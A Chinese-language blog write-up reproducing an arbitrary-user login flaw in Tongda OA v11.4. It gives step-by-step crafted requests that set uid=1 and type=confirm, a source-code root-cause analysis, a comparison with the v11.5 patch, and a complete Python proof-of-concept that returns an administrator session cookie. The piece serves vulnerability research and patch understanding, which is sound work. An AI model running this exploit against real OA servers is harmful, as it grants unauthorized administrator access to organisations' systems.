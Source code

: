 ```yaml
---
title: web漏洞@通达 OA Office Anywhere v11.4任意用户登录漏洞复现与原理详细解析（第二处）
date: 2020-12-19
cover: https://gitee.com/tutucoo/images/raw/master/uPic/2bS9UR.jpg
---
```


## 漏洞概述

通达OA系统采用领先的B/S(浏览器/服务器)操作方式，使得网络办公不受地域限制。 Office Anywhere采用基于WEB的企业计算，主HTTP服务器采用了世界上最先进的 Apache服务器，性能稳定可靠。数据存取集中控制，避免了数据泄漏的可能。提供数据备份工具，保护系统数据安全。多级的权限控制，完善的密码验证与登录验证机制更加强了系统安全性。

通达OA官方更新了V11版本安全补丁，修复了任意用户伪造登录漏洞，该漏洞的操作难度低，危害程度大。未经授权的攻击者通过构造请求包实现用户登录，又由于UID是主键且步进为1递增，从而导致可以指定UID实现任意用户登录（admin的缺省UID为1）。
## 漏洞环境

官网：https://www.tongda2000.com/

下载：https://cdndown.tongda2000.com/oa/2019/TDOA11.4.exe

版本：通达OA V11.X<V11.5

测试系统： 

Windows 7 专业版 64位操作系统 

macOS11.0.1 （攻击机）

python3.7.5

## 漏洞验证
第一步：访问ispirit/login_code.php，在返回值中保存codeuid：{58AA7BF5-725C-F8EB-3324-BE17C4E8F6AA}

第二步：访问general/login_code_scan.php
修改如下：

```
GET请求改为POST请求
添加Content-Type
添加Content-Length
添加请求体codeuid={xxx}&source=pc&uid=1&type=confirm&username=admin
```



![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219101708128_5207.png)

这个请求一般会返回status 1

  ![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219102012280_28610.png)

  第三步：访问/ispirit/login_code_check.php?codeuid={xxx}

  ![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219102123533_12814.png)

  如果请求正常，会返回如下图所示数据 
  ![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219102401024_13617.png)

第四步：访问/general/index.php，顺利登录后台，权限是系统管理员，实现任意用户登录
  ![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219102509925_13991.png)



## 漏洞原理

漏洞地址存在于general/login_code_scan.php，进入解密后的源码处查看代码，可以看到通过POST请求接收5个参数，然后存到数组里，uid可控，没有对uid进行任何校验，这就产生了漏洞
![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219104350520_5847.png)

这里会检测codeuid，如果codeuid存在并且正确会返回1

![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219104600278_30979.png)

再后面就没有任何检测了，直接在返回包里返回status

![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219105133157_30970.png)

漏洞点要发送5个参数，分别是codeuid，source，uid，type，username

* codeuid必须是实时获取到的，否则无法通过校验

* source只需填入pc、web或者mac其中之一（源码中做了判断,必须是这三个之一才会正常返回status）

* uid为1就是管理员权限，可以通过本地数据库查到，前面几篇博客都说明了，就不多说了。

* 最后并没有对type和username做检测
  

按理发请求的时候这两个任意值都是可以的，但是经过测试username可以是任意值，但是type必须是confirm，否则无法任意用户登录，那么这个type应该是有校验的，只不过不是在这个文件中，所以我们要找到这个校验处。
  校验很可能存在的位置就是下一个步骤，也就是访问/ispirit/login_code_check.php?codeuid={xxx}，找到源码进行查看。
可以看到15行对type进行判断

![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219170612652_23176.png)

  

如果type不是confirm就不会执行session操作，换句话就无法保存状态，伪造的管理员cookie也就无法生效了，后续直接访问后台就不会成功，所以type必须是confirm。



![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219170917295_8923.png)



## 补丁分析

找到v11.5版本的general/login_code_scan.php文件，可以看到不再直接从UID参数中取UID了，而是通过P参数获取sessionid，再通过sessionid获取数据库中的UID，再通过UID等信息生成TOKEN，最后再通过TOKEN等信息生成缓存，这样就解决了UID可控的问题了

![image-20201219215830050](https://gitee.com/tutucoo/images/raw/master/uPic/image-20201219215830050.png)

![image-20201219221115596](https://gitee.com/tutucoo/images/raw/master/uPic/image-20201219221115596.png)

## 总结
该漏洞点存在于general/login_code_scan.php，需要传递5个参数，分别是codeuid、source、uid、type、username、其中codeuid需要发送ispirit/login_code.php请求获取，其他几个参数通过分析源码我们也都知道了，唯独还有/ispirit/login_code_check.php?codeuid={xxx}请求，不知道是从何而来，可能是通过黑盒测试，二维码扫描过程中抓到的吧，也就是个猜测，自己通过APP扫码登录出了点问题，就不再细说了。

## 附：POC
```python3
import json
import requests

def getSession(url):
    vulUrl = url+'/ispirit/login_code.php'
    res = requests.get(vulUrl)
    codeuid = json.loads(res.text)['codeuid']
    print(codeuid)
    confirmUrl = url + '/general/login_code_scan.php'
    data = {
        'codeuid':codeuid,
        'uid': int(1),
        'source': 'pc',
        'type': 'confirm',
        'username': 'admin',
    }

    res = requests.post(confirmUrl,data=data)
    status = json.loads(res.text)['status']
    print(status)
    if status == str(1):
        seesionUrl = url + '/ispirit/login_code_check.php?codeuid='+codeuid
        res = requests.get(seesionUrl)
        print('[*]cookie:'+res.headers['Set-Cookie'])
    else:
        print('[-]failed')


if __name__ == "__main__":
    getSession('http://xxxx/')
```

